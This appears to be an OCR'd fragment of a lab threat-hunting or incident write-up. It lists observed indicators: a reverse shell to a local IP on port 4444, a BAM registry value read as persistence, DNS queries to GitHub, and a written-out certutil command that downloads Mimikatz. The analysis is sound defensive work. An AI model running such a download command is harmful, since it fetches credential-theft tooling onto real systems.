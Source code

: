 ![](image1.png)

2. Network Connections:

- Reverse shell connected to 10.0.0.6:4444 (TCP).
- External connection established to GitHub (172.64.149.23).

3. Registry Modifications:

- Path: HKLM\System\CurrentControlSet\Services\bam\State\UserSettings
- Value: cmd.exe - indicates persistence setup.

4. Payload Download Using CertUtil:

•Mimikatz downloaded via certutil from:

[h.t.t.p.s]://github.com/ParrotSec/mimikatz/raw/refs/heads/master/Win32/mimika tz.exe

•Command:

KQL

```powershell
certutil -urlcache -split -f "URL" C:\Users\labuser\Downloads\notmimikatz.exe
```

5. DNS Queries:

- Domain: github.com (used for payload download).
